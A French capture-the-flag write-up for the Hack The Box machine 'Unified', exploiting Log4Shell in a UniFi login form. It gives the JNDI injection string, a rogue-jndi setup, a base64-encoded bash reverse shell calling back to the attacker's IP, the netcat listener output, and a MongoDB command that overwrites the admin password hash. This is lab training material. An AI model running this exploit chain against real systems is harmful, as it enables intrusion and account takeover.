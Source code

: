 # Unified

Notes sur la machine Unified.

Cette machine est intéressante vu que Log4j a supris tout le monde, étant donné que c'est une faille qui est la depuis un bon moment et elle n'a été decouverte que recemment.  Elle a même permis de prendre conscience sur le fait qu'un seul developpeur à la charge d'un projet et qui fait ce code de façon benevole pouvait être à la base d'une faille de grosse ampleur.

## On teste la vulnerabilité

On se sert du champ remember pour y introduire un appel ldap

${jndi:ldap://10.10.14.19/whatever}

## On construit l'application java rogue-jndi avec maven

Ici j'ai eu un doute sur la version de java mais cela marche quand même avec la version 17 de Parrot. De toutes façons si tu desinstalles la 17 t'as plus le burpsuite.

```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

Nous avons construit :  RogueJndi-1.1.jar

On va utiliser cette appli pour créer le payload !

Le payload va être un reverse shell sous cette forme : 

```bash
❯ echo 'bash -c bash -i >&/dev/tcp/10.10.14.19/8888 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTkvODg4OCAwPiYxCg==
```

Un reverse shell classique.

On va donc executer RogueJndi-1.1.jar et on va lui passer le payload dans le paramettre --command et on va mettre le --hostname avec nôtre tun0

```bash
❯ java -jar ./RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTkvODg4OCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.19"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.19:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.19:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.19:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.19:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.19:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.19:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.19:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.19:1389/o=groovy to artsploit.controllers.Groovy
Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
```

On va sur BurpSuite et on send dans le repeater avec : 

```bash
{"username":"admin","password":"admin","remember":"${jndi:ldap://10.10.14.19:1389/o=tomcat}","strict":true}
```

## On est à l'écoute et on reçois la connection

```bash
❯ nc -lvp 8888
listening on [any] 8888 ...
10.129.125.109: inverse host lookup failed: Unknown host
connect to [10.10.14.19] from (UNKNOWN) [10.129.125.109] 50980
whoami
unifi
script /dev/null -c bash
Script started, file is /dev/null
unifi@unified:/usr/lib/unifi$ 
```

## On se connecte a mongo pour chercher le pass de l'admin

Une fois trouve on va le remplacer par le notre

1. On cree le pass en sha-512

```bash
mkpasswd -m sha-512 Password1234
```

2. On le remplace 

```bash
unifi@unified:/home/michael$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$xpt560mkS9qyXcXx$pif2PENRfHM/5IKuw4qaSbebUCh1dO72I5wZnL4tntxWzJzT7n4bNCwqXD6lY68UMCX6vx.2zpweswuYdBAX6."}})'
<ntxWzJzT7n4bNCwqXD6lY68UMCX6vx.2zpweswuYdBAX6."}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
unifi@unified:/home/michael$ 
```

Puis on peut se connecter sur l'interface du site ;)

user : administrator
pass : Password1234

Dans le site on trouve le mot de passe pour root pour une connection ssh !!!

On se connecte en ssh et la machine est finie. \o/

[Pwned](https://www.hackthebox.com/achievement/machine/944728/441) 

---

